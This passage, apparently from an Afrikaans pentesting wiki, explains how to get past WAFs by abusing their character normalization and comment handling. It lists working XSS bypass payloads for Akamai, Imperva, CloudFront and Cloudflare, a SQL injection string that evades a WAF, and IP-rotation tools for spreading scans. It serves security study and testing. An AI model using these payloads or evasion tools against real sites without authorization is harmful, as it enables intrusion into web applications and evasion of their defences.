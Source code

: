 Soos genoem in [**this blog post**](https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization), om WAFs wat 'n konteks van die gebruikerinvoer kan handhaaf te omseil, kan ons die WAF-tegnieke misbruik om eintlik die gebruikerinvoer te normaliseer.

Byvoorbeeld, in die pos word genoem dat **Akamai URL decoded a user input 10 times**. Daarom sal iets soos `<input/%2525252525252525253e/onfocus` deur Akamai gesien word as `<input/>/onfocus` wat **dalk dink dit is ok omdat die tag gesluit is**. As die toepassing die invoer egter nie 10 keer URL decode nie, sal die slagoffer iets soos `<input/%25252525252525253e/onfocus` sien wat **nog steeds geldig is vir 'n XSS-aanval**.

Dit laat dus toe om **payloads te versteek in gekodeerde komponente** wat die WAF sal decodeer en interpreteer terwyl die slagoffer dit nie sal doen nie.

Hierdie taktiek kan nie net met URL encoded payloads gedoen word nie, maar ook met ander koderinge soos unicode, hex, octal...

In die pos word die volgende finale bypasses voorgestel:

- Akamai:`akamai.com/?x=<x/%u003e/tabindex=1 autofocus/onfocus=x=self;x['ale'%2b'rt'](999)>`
- Imperva:`imperva.com/?x=<x/\x3e/tabindex=1 style=transition:0.1s autofocus/onfocus="a=document;b=a.defaultView;b.ontransitionend=b['aler'%2b't'];style.opacity=0;Object.prototype.toString=x=>999">`
- AWS/Cloudfront:`docs.aws.amazon.com/?x=<x/%26%23x3e;/tabindex=1 autofocus/onfocus=alert(999)>`
- Cloudflare:`cloudflare.com/?x=<x tabindex=1 autofocus/onfocus="style.transition='0.1s';style.opacity=0;self.ontransitionend=alert;Object.prototype.toString=x=>999">`

Dit word ook genoem dat, afhangend van **hoe sommige WAFs die konteks** van die gebruikerinvoer verstaan, dit moontlik is om dit te misbruik. Die voorgestelde voorbeeld in die blog is dat Akamai toegelaat het om enigiets tussen `/*` en `*/` te plaas (potensieel omdat dit algemeen as kommentaar gebruik word). Daarom sal 'n SQLinjection soos `/*'or sleep(5)-- -*/` nie gevang word nie en geldig wees aangesien `/*` die beginstring van die injectie is en `*/` as kommentaar beskou word.

Hierdie soort kontekstuele probleme kan ook gebruik word om ander kwesbaarhede as die een verwag deur die WAF te misbruik (bv. dit kan ook gebruik word om 'n XSS te exploiteer).

### H2C Smuggling <a href="#ip-rotation" id="ip-rotation"></a>


{{#ref}}
h2c-smuggling.md
{{#endref}}

### IP Rotation <a href="#ip-rotation" id="ip-rotation"></a>

- [https://github.com/ustayready/fireprox](https://github.com/ustayready/fireprox): Genereer 'n API gateway URL om saam met ffuf gebruik te word
- [https://github.com/rootcathacking/catspin](https://github.com/rootcathacking/catspin): Soortgelyk aan fireprox
- [https://github.com/PortSwigger/ip-rotate](https://github.com/PortSwigger/ip-rotate): Burp Suite plugin wat API gateway IPs gebruik
- [https://github.com/fyoorer/ShadowClone](https://github.com/fyoorer/ShadowClone): 'n Dynamies bepaalde aantal container instances word geaktiveer op grond van die input file size en split factor, met die invoer in stukkies gesplit vir parallelle uitvoering — byvoorbeeld 100 instances wat 100 stukkies van 'n 10,000-reël invoerlêer verwerk met 'n split factor van 100 reëls.
- [https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization](https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization)
